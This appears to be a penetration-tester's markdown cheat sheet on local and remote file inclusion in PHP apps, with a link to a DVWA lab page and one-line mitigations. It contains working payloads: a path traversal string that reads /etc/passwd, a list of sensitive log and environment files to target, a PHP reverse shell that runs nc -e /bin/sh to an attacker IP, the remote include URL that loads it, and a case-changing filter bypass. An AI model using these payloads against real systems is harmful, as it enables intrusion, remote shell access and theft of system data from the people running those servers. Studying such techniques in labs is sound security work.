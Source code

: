 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  

- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```

- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable *"allow_url_fopen = On"* & *"allow_url_include = On"*

